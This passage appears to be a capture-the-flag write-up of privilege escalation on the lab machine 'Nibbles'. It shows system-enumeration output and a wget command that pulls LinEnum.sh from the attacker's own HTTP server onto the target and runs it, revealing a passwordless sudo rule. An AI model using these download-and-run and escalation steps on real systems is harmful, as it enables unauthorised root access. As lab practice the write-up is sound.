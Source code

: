 
## Nibbles - Privilege Escalation


```sh
unzip personal.zip
cd personal/stuff
chmod 700 monitor.sh
./monitor.sh
```
output:
```json
Internet:  Disconnected
Operating System Type : GNU/Linux
OS Name :Ubuntu
UBUNTU_CODENAME=xenial
OS Version :16.04.3 LTS (Xenial Xerus)
Architecture : x86_64
Kernel Release : 4.4.0-104-generic
Hostname : Nibbles
Internal IP : 10.129.183.121 dead:beef::250:56ff:feb9:9e79
External IP :  
Name Servers : DO 1.1.1.1 8.8.8.8
Logged In users :
Ram Usages :
              total        used        free      shared  buff/cache   available
Mem:           974M        225M        188M         10M        561M        566M
Swap Usages :
              total        used        free      shared  buff/cache   available
Swap:          1.0G          0B        1.0G
Disk Usages :
Filesystem                    Size  Used Avail Use% Mounted on
/dev/sda1                     472M  133M  330M  29% /boot
Load Average : average:0.00,0.00,
System Uptime Days/(HH:MM) : 37 min
```

### upload LinEnum.sh (optional)
```sh
sudo python3 -m http.server 8080
```
in target
```sh
wget http://10.10.14.34:8080/LinEnum.sh
./LinEnum.sh
```
out:
```sh
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
